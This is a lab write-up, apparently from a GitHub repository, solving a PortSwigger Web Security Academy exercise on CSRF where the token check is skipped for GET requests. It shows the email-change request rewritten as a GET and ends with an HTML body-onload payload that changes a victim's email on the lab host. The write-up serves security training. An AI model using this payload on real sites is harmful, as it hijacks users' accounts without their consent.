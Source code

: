 
# 6 - CSRF where token validation depends on request method

This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

---------------------------------------------

Reference: https://portswigger.net/web-security/csrf

---------------------------------------------

Generated link: https://0af7002903ddc72c818c574600ce0059.web-security-academy.net/




![img](images/6%20-%20CSRF%20where%20token%20validation%20depends%20on%20request%20method/1.png)



![img](images/6%20-%20CSRF%20where%20token%20validation%20depends%20on%20request%20method/2.png)

It is a POST request:



![img](images/6%20-%20CSRF%20where%20token%20validation%20depends%20on%20request%20method/3.png)

Change the method to GET:

/my-account/change-email?email=test3%40test.com




![img](images/6%20-%20CSRF%20where%20token%20validation%20depends%20on%20request%20method/4.png)

You get a redirection code, if you follow it the email is updated:



![img](images/6%20-%20CSRF%20where%20token%20validation%20depends%20on%20request%20method/5.png)



![img](images/6%20-%20CSRF%20where%20token%20validation%20depends%20on%20request%20method/6.png)


Payload:

```
<body onload="window.open('https://0af7002903ddc72c818c574600ce0059.web-security-academy.net/my-account/change-email?email=test3%40test.com')">
```



![img](images/6%20-%20CSRF%20where%20token%20validation%20depends%20on%20request%20method/7.png)